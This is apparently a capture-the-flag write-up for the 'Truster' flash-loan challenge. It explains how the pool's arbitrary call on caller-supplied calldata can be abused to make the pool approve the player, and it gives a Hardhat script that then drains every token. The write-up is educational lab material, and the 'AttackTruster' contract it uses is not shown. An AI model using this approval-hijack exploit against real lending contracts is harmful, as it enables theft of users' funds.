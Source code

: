 ## Challenge #3 - Truster
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

---

First of all, check the origin test script:

```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Truster', function () {
    let deployer, player;
    let token, pool;

    const TOKENS_IN_POOL = 1000000n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        // deploy contracts and check variables.
        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        pool = await (await ethers.getContractFactory('TrusterLenderPool', deployer)).deploy(token.address);
        expect(await pool.token()).to.eq(token.address);
        await token.transfer(pool.address, TOKENS_IN_POOL);
        expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);
        expect(await token.balanceOf(player.address)).to.equal(0);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player has taken all tokens from the pool
        expect(
            await token.balanceOf(player.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await token.balanceOf(pool.address)
        ).to.equal(0);
    });
});
```

So in the test script we can see that it want to do a flash loan, so we have to check the function of flash loan.

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

In the flash loan function we can see that there can be a calldata can send into the flash loan function.
So if we make the flash loan contract to help us approve the token in calldata, and then we can transfer all of the token from pool.

So the answer test script can be like this:
```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Truster', function () {
    let deployer, player;
    let token, pool;

    const TOKENS_IN_POOL = 1000000n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        pool = await (await ethers.getContractFactory('TrusterLenderPool', deployer)).deploy(token.address);
        expect(await pool.token()).to.eq(token.address);

        await token.transfer(pool.address, TOKENS_IN_POOL);
        expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);

        expect(await token.balanceOf(player.address)).to.equal(0);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        // deploy attack contract
        const AttackTrusterDeployer = await ethers.getContractFactory("AttackTruster", player);
        const attackContract = await AttackTrusterDeployer.deploy(pool.address, token.address);

        const attackToken = token.connect(player);
        const amount = 0;
        const borrower = player.address;
        const target = token.address;

        // Create the ABI to approve the attacker to spend the tokens in the pool
        const abi = ["function approve(address spender, uint256 amount)"]
        const iface = new ethers.utils.Interface(abi);
        const data = iface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL])

        await attackContract.attack(amount, borrower, target, data);
        
        const allowance = await attackToken.allowance(pool.address, player.address);
        const balance = await attackToken.balanceOf(player.address);
        const poolBalance = await attackToken.balanceOf(pool.address);

        // we can see that the allowance amount is equal to the amount of pool balance so that we can transfer tokens away.
        console.log("Attacker balance:", balance.toString())
        console.log("Pool balance:", poolBalance.toString())
        console.log("Allowance:", allowance.toString());

        await attackToken.transferFrom(pool.address, player.address, allowance);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player has taken all tokens from the pool
        expect(
            await token.balanceOf(player.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await token.balanceOf(pool.address)
        ).to.equal(0);
    });
});
```
